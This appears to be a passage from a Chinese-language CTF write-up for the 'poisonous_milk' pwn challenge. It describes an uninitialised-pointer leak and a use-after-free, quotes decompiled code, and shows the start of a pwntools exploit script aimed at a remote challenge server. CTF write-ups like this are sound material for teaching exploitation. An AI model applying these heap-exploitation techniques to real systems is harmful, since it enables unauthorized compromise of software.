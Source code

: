 ```python

if local and debug: gdb.attach(p, open('debug'))
p.recvuntil('7. Exit')
p.sendline('5')
p.recvuntil('4. Main menu')
p.sendline('2')

p.interactive()

```

## poisonous_milk
本题有两个漏洞：
put_milk 功能里面如果输入非程序定义的颜色会导致未定义指针引用，可以通过这个漏洞来泄露地址
```c
  do
  {
    v3 = (char *)*v2;
    if ( !strcmp(*v2, &s2) )
      v1->color = v3; 
    ++v2; //v1->color并一定会被赋值
  }
```
drink在free堆块后没有对milks指针置空，也就导致了UAF漏洞，利用时可以通过put_milk控制milks->head和milks->tail，接下来就可以构造任意堆块和free任意指针
```
  v7 = (std::ostream *)std::ostream::put((std::ostream *)&std::cout, v6);
  std::ostream::flush(v7);
  milks->head = 0LL;
  v8 = milks;
  milks->tail = 0LL;
  v8->top = 0LL;
  std::__ostream_insert<char,std::char_traits<char>>(
    &std::cout,
    "Huang Xudong has activated his magic and program will soon die for his poisonous milk :(",
    88LL);
```
完整的利用的代码如下：
```python
#!/usr/bin/env python
# coding=utf-8

from pwn import *

slog = 1
debug = 1
local = 0

if slog: context.log_level = 'DEBUG'

if local:
    p = process('./poisonous_milk')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
    p = remote('52.27.136.59', 6969)
    libc = ELF('./libc-2.23.so')
    p.recvuntil('Token:')
    p.sendline('BwmDoZoJ9QjSFF65dgYP5eoNjGvoYl7K')

def put_milk(flags, color):
    p.recvuntil('> ')
    p.sendline('put')
    p.recvuntil('flags (0-99):')
    p.sendline(flags)
```